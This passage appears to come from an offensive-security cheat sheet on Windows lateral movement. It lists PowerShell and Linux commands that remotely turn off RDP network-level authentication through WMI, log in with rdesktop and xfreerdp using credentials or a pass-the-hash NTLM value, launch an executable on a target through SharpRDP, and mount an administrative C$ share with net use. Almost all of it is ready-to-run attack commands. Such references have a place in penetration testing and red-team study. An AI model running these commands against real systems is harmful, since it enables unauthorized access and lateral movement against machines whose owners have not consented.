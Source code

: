 ```powershell
PS > (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").UserAuthenticationRequired
PS > (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").SetUserAuthenticationRequired(0)
```

Abuse RDP protocol to execute commands remotely with the following commands;

* `rdesktop`
    ```powershell
    root@payload$ rdesktop -d DOMAIN -u username -p password 10.10.10.10 -g 70 -r disk:share=/home/user/myshare
    root@payload$ rdesktop -u username -p password -g 70% -r disk:share=/tmp/myshare 10.10.10.10
    # -g : the screen will take up 70% of your actual screen size
    # -r disk:share : sharing a local folder during a remote desktop session 
    ```
* `freerdp` 
    ```powershell
    root@payload$ xfreerdp /v:10.0.0.1 /u:'Username' /p:'Password123!' +clipboard /cert-ignore /size:1366x768 /smart-sizing
    root@payload$ xfreerdp /v:10.0.0.1 /u:username # password will be asked
    
    # pass the hash using Restricted Admin, need an admin account not in the "Remote Desktop Users" group.
    # pass the hash works for Server 2012 R2 / Win 8.1+
    # require freerdp2-x11 freerdp2-shadow-x11 packages instead of freerdp-x11
    root@payload$ xfreerdp /v:10.0.0.1 /u:username /d:domain /pth:88a405e17c0aa5debbc9b5679753939d  
    ```
* [SharpRDP](https://github.com/0xthirteen/SharpRDP)
    ```powershell
    PS C:\> SharpRDP.exe computername=target.domain command="C:\Temp\file.exe" username=domain\user password=password
    ```


## Netuse 

Windows only

```powershell
PS C:\> net use \\ordws01.cscou.lab /user:DOMAIN\username password C$
```
